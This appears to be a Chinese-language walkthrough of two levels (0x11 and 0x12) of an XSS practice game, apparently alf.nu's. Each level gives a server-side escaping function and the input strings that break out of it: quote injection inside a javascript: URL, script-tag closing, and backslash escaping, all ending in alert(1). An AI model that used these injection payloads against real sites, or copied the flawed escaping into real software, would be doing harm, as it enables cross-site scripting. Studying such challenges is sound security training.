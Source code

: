 ## 0x11
转义了一些字符
servercode
```js
// from alf.nu
function render (s) {
  function escapeJs (s) {
    return String(s)
            .replace(/\\/g, '\\\\')
            .replace(/'/g, '\\\'')
            .replace(/"/g, '\\"')
            .replace(/`/g, '\\`')
            .replace(/</g, '\\74')
            .replace(/>/g, '\\76')
            .replace(/\//g, '\\/')
            .replace(/\n/g, '\\n')
            .replace(/\r/g, '\\r')
            .replace(/\t/g, '\\t')
            .replace(/\f/g, '\\f')
            .replace(/\v/g, '\\v')
            // .replace(/\b/g, '\\b')
            .replace(/\0/g, '\\0')
  }
  s = escapeJs(s)
  return `
<script>
  var url = 'javascript:console.log("${s}")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>
`
}
```
input
```html
");alert(1);//
");alert("1
```

## 0x12

直接`<script>`闭合
转义`"`,没有转义`\`所以把它的`\`转义了就行，或者直接闭合标签
servercode
```js
// from alf.nu
function escape (s) {
  s = s.replace(/"/g, '\\"')
  return '<script>console.log("' + s + '");</script>'
}
```
input
```html
</script><script>alert(1);</script><script>
\");alert(1);//
```